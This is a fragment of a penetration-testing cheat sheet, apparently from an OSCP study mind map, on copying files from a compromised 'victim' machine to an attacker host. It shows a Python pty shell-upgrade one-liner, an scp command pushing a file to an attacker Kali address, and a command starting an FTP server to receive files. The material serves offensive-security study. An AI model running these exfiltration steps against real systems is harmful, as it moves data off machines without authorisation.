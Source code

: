 https://github.com/eMVee-NL/MindMap
### Victim To Attacker

#### SCP

TTY shell first

```
python -c 'import pty; pty.spawn("/bin/sh")'
```

```bash
scp ~/localfile.txt kali@192.168.45.156:/home/kali/oscp/linux_tools/linpeas.sh
```

#### FTP

```bash
sudo twistd3 -n ftp -p 21 -r /oscp 
```

